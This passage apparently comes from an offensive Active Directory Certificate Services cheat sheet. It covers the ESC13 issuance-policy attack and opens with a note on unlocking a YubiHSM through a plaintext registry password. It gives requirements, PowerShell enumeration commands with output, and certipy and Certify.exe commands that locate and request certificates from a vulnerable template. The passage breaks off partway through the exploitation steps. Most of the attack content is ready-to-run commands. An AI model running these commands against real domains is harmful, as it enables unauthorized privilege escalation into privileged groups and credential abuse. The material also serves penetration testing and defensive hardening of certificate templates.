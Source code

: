 Unlocking the YubiHSM with the plaintext password in the registry key: `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword`.

## ESC13 - Issuance Policy

> If a principal (user or computer) has enrollment rights on a certificate template configured with an issuance policy that has an OID group link, then this principal can enroll a certificate that allows obtaining access to the environment as a member of the group specified in the OID group link.

**Requirements**

* The principal has enrollment rights on a certificate template
* The certificate template has an issuance policy extension
* The issuance policy has an OID group link to a group
* The certificate template defines EKUs that enable client authentication

```ps1
PS C:\> $ESC13Template = Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties nTSecurityDescriptor $ESC13Template.nTSecurityDescriptor.Access | ? {$_.IdentityReference -eq "DUMPSTER\ESC13User"}
AccessControlType     : Allow

# check if there is an issuance policy in the msPKI-Certificate-Policy
PS C:\> Get-ADObject "CN=ESC13Template,$TemplateContainer" -Properties msPKI-Certificate-Policy
msPKI-Certificate-Policy : {1.3.6.1.4.1.311.21.8.4571196.1884641.3293620.10686285.12068043.134.3651508.12319448}

# check for OID group link
PS C:\> Get-ADObject "CN=12319448.2C2B96A74878E00434BEDD82A61861C5,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
msDS-OIDToGroupLink     : CN=ESC13Group,OU=Groups,OU=Tier0,DC=dumpster,DC=fire

# verify if ESC13Group is a Universal group
PS C:\> Get-ADGroup ESC13Group -Properties Members
GroupScope        : Universal
Members           : {}
```

**Exploitation**:

* Find a vulnerable template

  ```ps1
  certipy find -target dc.lab.local -dc-ip 10.10.10.10 -u "username" -p "P@ssw0rd" -stdout -vulnerable
  ```

* Request a certificate for the vulnerable template

  ```ps1
  .\Certify.exe request /ca:DC01\dumpster-DC01-CA /template:ESC13Template
  certipy req -target dc.lab.local -dc-ip 10.10.10.10 -u "username" -p "P@ssw0rd" -template <ESC13-Template> -ca <CA-NAME>
  ```

* Merge into a PFX file
